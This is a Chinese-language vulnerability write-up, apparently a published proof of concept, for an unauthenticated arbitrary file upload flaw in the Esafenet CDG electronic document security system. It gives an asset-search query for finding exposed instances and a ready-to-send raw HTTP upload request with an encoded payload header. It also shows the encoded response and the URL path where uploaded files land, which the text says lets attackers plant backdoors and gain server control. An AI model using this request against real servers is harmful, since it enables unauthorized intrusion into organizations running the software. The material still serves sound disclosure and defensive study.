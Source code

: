 # 亿赛通电子文档安全管理系统uploadFile任意文件上传漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统uploadFile接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1706170000549-fdc86adb-1d49-443d-b3db-0a49c1a9ff04.png](./img/m4IM7b6tuy2o6nC3/1706170000549-fdc86adb-1d49-443d-b3db-0a49c1a9ff04-525849.png)

![1711288172901-1346b066-5e2d-4825-9082-5e0e82e24f69.png](./img/m4IM7b6tuy2o6nC3/1711288172901-1346b066-5e2d-4825-9082-5e0e82e24f69-766504.png)

# 四、漏洞复现
该漏洞是在在该域名8021端口下进行上传，上传的内容是在8443端口或者8090端口

上传文件

```plain
POST /file/uploadFile HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content: MGIFOACOKLJAHOGCPPOBDFLGJFPACJJKLFGFOBDNHAGLEDGALNKAEHDLMEOODCBFDIMEFNGHCMGBPABDLPPCHCLMAELIDDCLOGNPOCGHIEFJHIOEIIPPJBCIFCPDOKIOMKPPDGPHCALHOJNNBLJBHGLMPBFICDGGMMOLGLGMIHOOFLHLBEHNIHOPOEKKIPHCMJAOMGMNPFINKHMPBFOJBJPNLNKILIOCMJIGHMNBBEBIAIKCHLENKGCPMEIIGODKKOEJJFEEIPNGHGBOOEIKNIOHIMCDONLKCEIFHIGKLHEGJNHMDAMIIELDOPGDKPOKKAHHDIMOJCJNHKMFABAFLFFDGEAJPIEOGPBNDHEOLDFBOFPFKBCEABHOPFDECBHBCFCEGO
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 144
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="file"
Content-Type: image/jpg

123
--00content0boundary00--
```

![1711288224792-c3d7eaa3-82db-4e39-afe9-4bdf5cc03fb3.png](./img/m4IM7b6tuy2o6nC3/1711288224792-c3d7eaa3-82db-4e39-afe9-4bdf5cc03fb3-142205.png)

```plain
CBDJCOKKKDJALCHGLOICCHCGLHNPDANBDGPPNLNLHMHLAAAGALIIHCBFPKNFHKOFEIOKAOMHAMHLILNEHEPEMGFFHOPCEPFAHHGPLHEJOKNNMLCMCCFDJNKECLEGOLOMMKPPDGPHCALHOJNNBLJBHGLMPBFICDGGEJMJMMGCAKMOOBKBNECCMOMJMEDMPDAJBMNKIJFPFOPEFNDABHJCLAINBDMEEODMBGKLIHCLLONIIGNIEMCBNKAPNPFPLOHCGM
```

![1711288247140-9a262aae-7ed7-47ba-910f-1d3fb269cd07.png](./img/m4IM7b6tuy2o6nC3/1711288247140-9a262aae-7ed7-47ba-910f-1d3fb269cd07-977723.png)

![1711288273648-ef811a29-dcb7-4035-9a18-bc44f187757f.png](./img/m4IM7b6tuy2o6nC3/1711288273648-ef811a29-dcb7-4035-9a18-bc44f187757f-403907.png)

上传文件位置，在8443端口或者8090端口

```plain
https://ip:8443/CDGServer3/3g/stc.jsp
```

![1711288324445-93a6a907-0da7-436e-822c-ca495d9712bd.png](./img/m4IM7b6tuy2o6nC3/1711288324445-93a6a907-0da7-436e-822c-ca495d9712bd-945014.png)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dhcm5vbe1lakywrb>